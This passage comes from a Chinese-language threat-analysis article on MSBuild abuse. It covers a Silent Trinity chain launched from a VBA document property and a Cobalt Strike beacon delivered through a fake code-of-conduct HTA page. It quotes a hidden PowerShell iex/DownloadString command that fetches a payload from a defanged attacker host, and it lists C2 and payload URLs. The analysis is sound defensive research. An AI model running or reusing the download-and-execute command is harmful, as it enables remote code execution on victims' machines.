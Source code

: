 图15. VBA代码使用文档的`Subject`属性来启动下一阶段攻击

文档的`Subject`属性中包含一些代码，用来执行PowerShell，获取并调用下一阶段payload：

```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NoExit -w hidden -Command iex(New-Object System.Net.WebClient).DownloadString('hxxp://apb[.]sh/helloworld[.]ps1')
```

`Helloworld.ps1`会从另一个URL（`hxxp://apb[.]sh/msbuild[.]xml`）下载并启动MSBuild配置文件，经过一番操作后，`Helloworld.ps1`会从`hxxp://apb[.]sh/per[.]txt`下载一个文件，将其保存为用户`\Start Menu\Programs\Startup\`目录中的`a.bat`文件，`a.bat`的作用是确保用户登出系统后payload依然能驻留。

样本下载的MSBuild配置文件似乎由Silent Trinity .NET攻击平台创建，将.NET程序集payload保存为经过zlib压缩的文件，然后使用base64编码器进行编码。Silent Trinity stager程序集在解码及加载后，所使用的命令控制URL指向`hxxp://35[.]157[.]14[.]111`，这是隶属于Amazon AWS的一个IP地址。

[![](./img/199458/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t010804e132998789ec.jpg)

图16. Silent Trinity样本的完整攻击阶段

Silent Trinity是相对较新的一个攻击框架，可以帮助攻击者或者红方队员在突破目标环境后开展各种攻击。原始的Silent Trinity植入体名为Naga，可以解释执行采用[Boolang](https://github.com/boo-lang/boo)语言发送的命令。植入体与C2服务器之间的通信流量虽然采用HTTP协议发送，但依然经过加密处理。

在本例中，攻击者使用的是老版本的Naga，该版本并没有使用Boolang，但会尝试加载IronPython，这是适用于.NET框架的Python实现。

[![](./img/199458/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01e9fd346a3f361a45.png)

图17. Silent Trinity植入体加载IronPython引擎

与其他post-exploitation行为类似，我们很难确定该行为由恶意攻击者发起，还是由红方成员发起。

### <a class="reference-link" name="%E6%A1%88%E4%BE%8B3%EF%BC%9A%E5%8A%A0%E5%AF%86Cobalt%20Strike%20beacon%E7%9A%84URL"></a>案例3：加密Cobalt Strike beacon的URL

最后一个案例采用了不同的感染方式。攻击链路从某个web页面开始，该页面托管了知名服装厂商G-III的员工行为准则文件，该文件实际上是由VB Script编写的HTML应用，会创建MSBuild配置文件并运行MSBuild。

[![](./img/199458/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t013e0794cf14c96ae6.png)

图18. VB Script HTA文件创建配置文件并调用MSBuild

MSBuild配置文件中包含一个内联任务类，使用外部URL来获取用来解密嵌入的加密payload的秘钥，秘钥存放的URL为`hxxp://makeonlineform[.]com/forms/228929[.]txt`。嵌入的payload为Cobalt Strike PowerShell加载器，用来去混淆最终Cobalt Strike beacon，将其载入进程内存中。

[![](./img/199458/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01eeaee621036e9337.png)

图19. 经过去混淆的Cobalt Strike PowerShell加载器

当Cobalt Strike beacon加载完成后，HTA应用就会将浏览器导航至G-III行为准则文件的实际URL，最终样本会在本地主机上删除生成的MSBuild配置文件。

如果观察Threat Grid生成的进程树，可以看到`MSBuild.exe`进程会启动PowerShell，这是潜在可疑的一种行为。这里`Mshta.exe`并不是`MSBuild.exe`的父进程，否则整个行为轨迹会更加可疑。

[![](./img/199458/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010a07103c72bbbe96.png)

图20. Threat Grid中显式的HTA应用进程树



## 0x04 感知数据及追踪溯源
